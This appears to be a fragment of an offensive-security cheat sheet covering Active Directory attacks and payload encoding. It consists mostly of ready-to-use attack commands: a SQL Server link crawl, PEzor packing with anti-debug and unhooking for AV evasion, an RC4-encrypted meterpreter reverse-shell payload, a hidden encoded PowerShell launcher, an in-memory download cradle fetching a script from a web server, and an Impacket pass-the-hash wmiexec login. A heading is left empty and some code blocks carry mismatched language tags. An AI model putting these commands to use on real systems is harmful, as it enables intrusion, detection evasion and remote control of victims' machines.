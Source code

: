 ```py

# Automatically find all linked databases
Get-SqlServerLinkCrawl -Instance dcorp-mssql | select instance,links | ft
```

# Domain Dominance

# Misc & Encoding

##### PeZOR Packing and Encoding 

```cpp
PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 /root/Desktop/Grunt_Nim.exe -z 2
```

##### Cat to base64 

```cpp
cat file.ps1 | iconv -t utf-16le | base64 -w 0
powershell -Sta -Nop -Window Hidden -EncodedCommand <encodedCommand>
```

##### Powershell to base64

```cpp
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\IEUser\Desktop\golden.kirbi")) 
``` 

##### Hex Encode 

```py
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
//cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
xxd -i encmeter.bin
```

##### Default MSF bin

```py
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Proxy Loading worked!" -f raw > shellcode.bin
```

##### PS memory 

```powershell
$string = "iex (New-Object Net.WebClient).DownloadString('http://<webServer>:8082/ps.ps1')"
$encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string))
echo $encodedcommand
```

##### Impacket
Impacket is a collection of Python classes for working with network protocols
```py
proxychains python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes e353da88f9c4331504f70d471f0f9cb1:REDACTED a.user@10.10.120.1
```
